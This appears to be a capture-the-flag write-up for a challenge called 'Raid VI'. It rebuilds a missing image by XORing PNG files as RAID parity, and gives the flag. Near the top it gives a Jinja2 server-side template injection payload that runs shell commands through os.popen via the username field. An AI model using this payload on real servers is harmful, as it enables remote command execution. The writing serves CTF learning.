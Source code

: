 # Raid VI

The web server was vulnerable to STTI. We can do RCE with the username: `{{ cycler.__init__.__globals__.os.popen('command').read() }}`

There were 6 images inside `/app`. RAID is a storage technology that uses the XOR operation to protect data using parity, especially at levels like RAID 5.
The "parity.png" picture is used to recover the missing "m6.png" picture as the name suggested.

```py
from PIL import Image
import numpy as np

def extract_png(file: str):
    try:
        with open(file,"rb") as f:
            data = f.read()
            start = data.find(b"\x89PNG")
            end = data.find(b"IEND",start)
            if start == -1 or end == -1:
                print("This file does not contains a PNG file.")
                return
            with open(f"{file.split(".")[0]}_extracted.png","wb+") as o:
                o.write(data[start:end])
                
    except FileNotFoundError:
        print("File not found.")

def xor_images(img1, img2, output):
    a = np.array(Image.open(img1).convert("RGB"))
    b = np.array(Image.open(img2).convert("RGB"))
    c = Image.fromarray(np.bitwise_xor(a,b))
    c.save(output)

# Raid 'VI'
# parity = m1 ^ m2 ^ m3 ^ m4 ^ m5 ^ m6
xor_images("m5.png","parity.png","m6.png")
for i in range(1,5):
    extract_png(f"m{i}.png")
    xor_images(f"m{i}_extracted.png","m6.png","m6.png")
```

`QnQSec{j1j4br34d_c00k13s_4nd_x0r_m1lk]`
